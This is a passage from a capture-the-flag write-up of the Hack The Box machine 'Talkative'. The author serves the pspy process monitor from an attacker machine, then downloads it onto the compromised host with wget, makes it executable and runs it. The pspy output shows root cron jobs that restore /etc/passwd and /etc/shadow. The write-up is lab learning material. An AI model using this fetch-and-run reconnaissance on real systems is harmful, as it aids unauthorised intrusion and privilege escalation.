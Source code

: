 2022-06-24 17:43:16 (13.5 MB/s) - ‘pspy64’ saved [3078592/3078592]

                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/talkative/serve]
└─$ python3 -m updog -p 80
[+] Serving /home/kali/htb/talkative/serve...
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://192.168.178.89:80/ (Press CTRL+C to quit)
10.10.11.155 - - [24/Jun/2022 17:43:32] "GET /pspy64 HTTP/1.1" 200 -
```

Download the files to the client:
```
saul@talkative:/dev/shm$ wget 10.10.14.4/pspy64
--2022-06-24 13:41:02--  http://10.10.14.4/pspy64
Connecting to 10.10.14.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [text/plain]
Saving to: ‘pspy64’

pspy64                                 100%[============================================================================>]   2.94M  3.28MB/s    in 0.9s    

2022-06-24 13:41:03 (3.28 MB/s) - ‘pspy64’ saved [3078592/3078592]

saul@talkative:/dev/shm$ chmod +x pspy64 
saul@talkative:/dev/shm$ ./pspy64 
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
```

Eventually i've noticed some python processes that get almost exactly every minute:

```
2022/06/24 13:51:01 CMD: UID=0    PID=48156  | 
2022/06/24 13:51:01 CMD: UID=0    PID=48154  | /bin/sh -c python3 /root/.backup/update_mongo.py 
2022/06/24 13:51:01 CMD: UID=0    PID=48159  | python3 /root/.backup/update_mongo.py 
2022/06/24 13:52:01 CMD: UID=0    PID=48167  | cp /root/.backup/passwd /etc/passwd 
2022/06/24 13:52:01 CMD: UID=0    PID=48166  | /bin/sh -c cp /root/.backup/passwd /etc/passwd 
2022/06/24 13:52:01 CMD: UID=0    PID=48165  | /usr/sbin/CRON -f 
2022/06/24 13:52:01 CMD: UID=0    PID=48164  | /usr/sbin/CRON -f 
2022/06/24 13:52:01 CMD: UID=0    PID=48168  | /bin/sh -c cp /root/.backup/shadow /etc/shadow 
2022/06/24 13:53:01 CMD: UID=0    PID=48173  | 
2022/06/24 13:53:01 CMD: UID=0    PID=48171  | /usr/sbin/CRON -f 
2022/06/24 13:54:01 CMD: UID=0    PID=48181  | /usr/sbin/CRON -f 
2022/06/24 13:54:01 CMD: UID=0    PID=48180  | python3 /root/.backup/update_mongo.py 
2022/06/24 13:54:01 CMD: UID=0    PID=48179  | /bin/sh -c python3 /root/.backup/update_mongo.py 
2022/06/24 13:54:01 CMD: UID=0    PID=48178  | /usr/sbin/CRON -f 
2022/06/24 13:54:01 CMD: UID=0    PID=48177  | /usr/sbin/CRON -f 
2022/06/24 13:54:01 CMD: UID=0    PID=48176  | /usr/sbin/CRON -f 
2022/06/24 13:54:01 CMD: UID=0    PID=48183  | /bin/sh -c cp /root/.backup/passwd /etc/passwd 